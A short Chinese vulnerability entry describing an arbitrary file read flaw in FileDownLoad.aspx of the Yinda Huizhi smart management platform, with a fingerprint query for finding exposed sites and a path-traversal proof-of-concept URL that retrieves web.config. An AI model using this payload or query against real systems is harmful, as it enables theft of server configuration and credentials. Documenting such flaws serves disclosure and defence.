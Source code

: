 # 银达汇智 智慧综合管理平台 FileDownLoad.aspx 任意文件读取漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

<a-checkbox checked>银达汇智 智慧综合管理平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"汇智信息" && title="智慧综合管理平台登入"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1627914977251-450973a6-e847-454b-817b-efa35fdc4aed-20220313134159838.png)

验证POC

```plain
http://xxx.xxx.xxx.xxx/Module/FileManagement/FileDownLoad.aspx?filePath=../../web.config
```

![img](/assets/PeiQi-Wiki/img/1627915116676-c0c892b3-14d0-4b50-a97b-cbc0cd8d4dc9.png)